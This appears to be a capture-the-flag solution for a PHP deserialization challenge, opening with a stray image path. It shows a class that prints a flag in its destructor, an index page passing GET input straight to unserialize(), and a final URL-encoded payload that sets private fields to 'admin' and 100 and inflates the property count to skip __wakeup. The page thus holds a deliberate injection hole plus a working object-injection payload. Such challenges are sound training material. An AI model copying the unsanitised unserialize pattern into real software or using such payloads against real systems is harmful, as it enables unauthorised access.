

/* class.php*/
class Name{
    private $username = 'nonono';
    private $password = 'yesyes';
    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }
    function __wakeup(){
        $this->username = 'guest';
    }
    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>"; echo "You name is: ";
            echo $this->username;echo "</br>"; echo "You password is: ";
            echo $this->password;echo "</br>"; die();}
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();         }}}
/* index.php*/
<?php
    include 'class.php';
    $select = $_GET['select'];
    $res=unserialize(@$select);
?>

O%3A4%3A%22Name%22%3A3%3A%7Bs%3A14%3A%22%00Name%00username%22%3Bs%3A5%3A%22admin%22%3Bs%3A14%3A%22%00Name%00password%22%3Bi%3A100%3B%7D